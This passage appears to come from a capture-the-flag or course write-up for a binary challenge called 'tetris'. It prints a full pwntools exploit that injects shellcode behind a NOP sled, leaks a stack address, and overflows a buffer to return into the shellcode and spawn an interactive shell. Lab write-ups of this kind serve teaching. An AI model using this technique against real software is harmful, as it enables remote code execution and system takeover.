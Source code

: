 * step3: buffer overflow

	```
	padding = cyclic(56, alphabet=string.ascii_uppercase, n=8).encode()
	p.sendlineafter(b'$ ', b's\n' + padding + p64(stack_addr))
	p.interactive()
	```
	
* whole script
	
	```
	from pwn import *

	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 4004)
	    # p = process('./tetris')
	else:
	    # p fget pws *loop+179
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '75']
	    p = gdb.debug('./tetris',
	                  gdbscript='''
	                  b *loop+179
	                  b *set_name+98
	                  c
	                  ''')
	
	# inject shellcode
	shellcode = asm(shellcraft.sh())
	print('len(shellcode):', len(shellcode))
	padding = b'\x90' * ((0x53) - len(shellcode))
	p.sendlineafter(b'$ ', b'p\n' + padding +shellcode)
	
	# leak the stack addr
	p.recvuntil(b'Error occurred while printing flag at offset ').decode('utf-8').strip()
	rdn_addr_str = p.recvline().strip(b'\n')
	print('stack_addr', rdn_addr_str)  # 7th from rsp or rbp addr
	stack_addr = int(rdn_addr_str, 16) + 16
	
	# bufferfly
	padding = cyclic(56, alphabet=string.ascii_uppercase, n=8).encode()
	p.sendlineafter(b'$ ', b's\n' + padding + p64(stack_addr))
	
	p.interactive()

	```
	
## formatrix
